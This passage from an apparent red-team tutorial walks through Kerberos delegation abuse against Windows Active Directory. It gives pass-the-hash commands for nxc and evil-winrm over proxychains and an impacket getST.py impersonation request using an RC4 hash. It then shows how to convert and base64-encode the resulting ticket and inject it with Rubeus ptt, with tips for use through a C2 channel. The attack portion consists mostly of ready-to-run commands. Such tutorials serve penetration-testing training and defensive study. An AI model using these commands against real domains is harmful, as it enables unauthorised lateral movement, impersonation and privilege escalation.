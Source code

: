 ```sh
proxychains nxc winrm [IP/FQDN] -u [username] -H [hash] --local-auth
proxychains evil-winrm -i [IP/FQDN] -u [username] -H [hash]
```

![35](https://i.gyazo.com/1b933204bd4bb01314c830ad52e6f4bf.png)

#### Linux -> Windows

Similarly, we can perform this same attack but on the Linux side; then we'll transfer the ticket to Windows to verify that it works.

```sh
getST.py -spn [delegated_spn] -impersonate [user_with_local_admin] [controlled_principal] -hashes :[rc4]
```

![36](https://i.gyazo.com/bcaa0f961ac903058c82c927d12e1220.png)

We can verify that our ticket works with `nxc`

```sh
nxc smb [IP/FQDN] --use-kcache
```

![37](https://i.gyazo.com/01a9585cbbf87167c1f2d38b42864316.png)

There are **2** options for transferring this ticket over to Windows:
1. Transforming the `.ccache` to `.kirbi`, and referencing it in `Rubeus.exe ptt /ticket:[ticket.kirbi]`
    * Requires you to drop the ticket to disk, may be difficult if you don't have a C2
2. Transforming the `.ccache` to `.kirbi`, then Base64 encoding it and referencing it in `Rubeus.exe ptt /ticket:[base64_ticket]`
    * If you're using a C2, the length of the ticket may cause argument length issues depending on your C2 protocol

I'll be demonstrating the second method here, as it's a bit more messy and readers may not be familiar with it.

```sh
ticketConverter.py ticket.ccache ticket.kirbi
```

![38](https://i.gyazo.com/6caa0ed0bae36d0ac7ef788d34d515c6.png)

```sh
cat ticket.kirbi | base64 -w 0
```

![39](https://i.gyazo.com/db52db455c96c22273fe9a2a7882c899.png)

Import the ticket on Windows with `Rubeus.exe ptt /ticket:[base64_ticket]`

![40](https://i.gyazo.com/4793ff075f9fe172b2046b17e79bb3cb.png)

We can see that our ticket was successfully imported with `Rubeus.exe klist`
